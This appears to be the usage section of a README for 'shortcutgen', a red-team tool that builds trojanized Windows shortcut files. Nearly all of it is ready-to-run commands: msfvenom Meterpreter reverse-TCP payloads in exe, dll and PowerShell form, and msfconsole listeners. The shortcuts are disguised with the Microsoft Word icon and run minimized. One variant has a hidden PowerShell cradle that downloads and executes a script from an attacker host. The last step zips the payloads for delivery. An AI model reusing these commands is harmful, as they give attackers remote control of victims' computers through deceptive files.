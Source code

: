 ## Usage

### 0x00 - Trojanized Shortcuts

#### Windows

Generate the shell link then pack it with the PE EXEcutable dropper (`.exe`) payload to trigger it. For a custom icon (`--icon`) you must either specify an index or an absolute path of the file/executable with a suffix of zero (e.g., `C:\path\to\file,0`) otherwise it won't generate and result an error. The working directory (`--workingdirectory`) will be executed if you placed a dropper that touches the disk unless you're staging it so be careful with this option.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f exe -o payload.exe

$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 443; run"

$ shortcutgen -p lnk -c "C:\Windows\System32\cmd.exe" -a "/c .\payload.exe" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk

$ 7z a -tzip -mx=9 archive.zip payload.*
```

Generate the shell link then pack it with the Dynamic Link Library dropper (`.dll`) payload to trigger it.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f dll -o payload.dll

$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 443; run"

$ shortcutgen -p lnk -c "C:\Windows\System32\cmd.exe" -a "/c rundll32.exe .\payload.dll,StartW" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk

$ 7z a -tzip -mx=9 archive.zip payload.*
```

Generate the shell link while hosting a webserver to stage a PowerShell (`.ps1`) payload to trigger it.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f psh-reflection -o payload.ps1

$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost <IP>; set lport 8443; exploit"

$ sudo python -m http.server 80

$ shortcutgen -p lnk -c ""C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe"" -a "-nop -NonI -Nologo -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http[s]://<attacker_IP>/payload.ps1'))\"" --icon "C:\Program Files\Microsoft Office\root\Office16\winword.exe,0" -w "minimized" --workingdirectory "C:\\Users\\Public\\" -o payload.lnk
```
